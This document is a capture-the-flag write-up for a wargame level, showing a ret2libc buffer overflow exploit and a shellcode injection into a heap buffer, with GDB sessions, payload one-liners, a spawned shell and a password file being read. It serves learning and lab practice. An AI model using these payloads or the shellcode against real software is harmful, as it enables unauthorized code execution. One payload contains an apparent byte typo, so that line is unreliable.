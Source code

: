 # Level 2

We found two methods here :

## Methode 1: ret2Libc

First, we have to check if there is an overflow and where.

```sh
$ python pattern.py 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

Let's start GDB and launch our program with this pattern

```sh
$ gdb -q ./level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) r <<< Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Starting program: /home/user/level2/level2 <<< Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

The program crash with 0x37634136 in final value, it's out point of entry. Now we can find the size of the buffer crashing the program.

```sh
$ python pattern.py --crash 37634136
Buffer crashed at size: 80
```

We have our offset, let's try to do a ret2libc exploit. It consists in adding a function call of libc at the end of the EIP register.
We are going to call system() with /bin/sh as argument let’s find those addresses with GDB.
We also need exit() to leave properly and the return address of the main.

```sh
$ gdb -q ./level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) r
Starting program: /home/user/level2/level2

Breakpoint 1, 0x08048542 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
(gdb) disass
Dump of assembler code for function main:
   0x0804853f <+0>:		push   %ebp
   0x08048540 <+1>:		mov    %esp,%ebp
=> 0x08048542 <+3>:		and    $0xfffffff0,%esp
   0x08048545 <+6>:		call   0x80484d4 <p>
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
```

We also have to find a string containing "/bin/sh", for this we will be helped by the environment:

```sh
$ export HACK=/bin/sh
$ /tmp/genv HACK ./level2
HACK will be at 0xbffff91d
```

A little resume of the situation:

```
offset:           80
ret address:      0x0804854b
system address:   0xb7e6b060
exit address:     0xb7e5ebe0
/bin/sh address:  0xbffff91d
```

Now, it's time for the exploit :D<br>
`[ OFFSET ] [ RETURN ADDRESS ] [ SYSTEM ADDRESS ] [ EXIT ADDRESS ] [ ARGS ADDRESS ]`

```sh
$ (python -c 'print("A" * 80 + "\x4b\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x1d\xf9\xff\bf")'; cat) | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAKAAAAAAAAAAAAK`�����X���
whoami
level3
cat /home/user/level3/.pass
```

Sources:<br>
[0xRick's Blog](https://0xrick.github.io/binary-exploitation/bof6/)<br>
[hackndo](https://beta.hackndo.com/retour-a-la-libc/)<br>
[CTF101](https://ctf101.org/binary-exploitation/buffer-overflow/)<br>
[0x0ff.info](https://www.0x0ff.info/2015/buffer-overflow-gdb-part-2/)<br>

## method 2: exec a shellcode stored in the malloced buffer

### shellcode executing system(/bin//sh):

\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80

```sh
$ ndisasm -b32 shellcode
00000000  31C0              xor eax,eax
00000002  99                cdq                       # set edx at 0
00000003  50                push eax
00000004  682F2F7368        push dword 0x68732f2f
00000009  682F62696E        push dword 0x6e69622f
0000000E  89E3              mov ebx,esp
00000010  50                push eax
00000011  53                push ebx
00000012  89E1              mov ecx,esp
00000014  B00B              mov al,0xb
00000016  CD80              int 0x80
```

### offset is 80:

```sh
gdb ./level2
(gdb) r <<< Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

0x37634136 => 80
(https://wiremask.eu/tools/buffer-overflow-pattern-generator/?)

### in rainfall we get the address of the malloced string:

```sh
$ ltrace ./level2 <<< coucou
strdup("coucou")  = 0x0804a008
```

### the hack:

```sh
$ (python -c 'print("\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x41" * 56 + "\x08\xa0\x04\x08")';cat) | ./level2
```
